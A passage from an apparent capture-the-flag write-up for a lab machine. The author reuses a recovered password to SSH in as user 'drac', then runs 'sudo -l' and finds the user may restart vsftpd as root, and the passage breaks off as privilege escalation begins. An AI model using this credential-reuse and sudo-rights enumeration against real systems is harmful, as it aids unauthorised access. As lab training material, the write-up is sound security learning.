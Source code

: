 now that we have a password it maight be used for SSH too 

let's try it 

```terminal
ssh drac@10.10.4.124           
The authenticity of host '10.10.4.124 (10.10.4.124)' can't be established.
ED25519 key fingerprint is SHA256:74/tt/begRRzOOEOmVr2W3VX96tjC2aHyfqOEFUOkRk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.4.124' (ED25519) to the list of known hosts.
drac@10.10.4.124's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Mar  9 17:19:30 UTC 2025

  System load:  0.0               Processes:           111
  Usage of /:   50.4% of 8.79GB   Users logged in:     0
  Memory usage: 25%               IP address for eth0: 10.10.4.124
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

69 packages can be updated.
1 update is a security update.


Last login: Wed Aug  4 06:36:42 2021 from 192.168.0.105
drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
```
### Privilege Escalation

after running the command "sudo -l" to check if the user can run anything as root 
and we find this:

```terminal
sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
ro we can run the command     
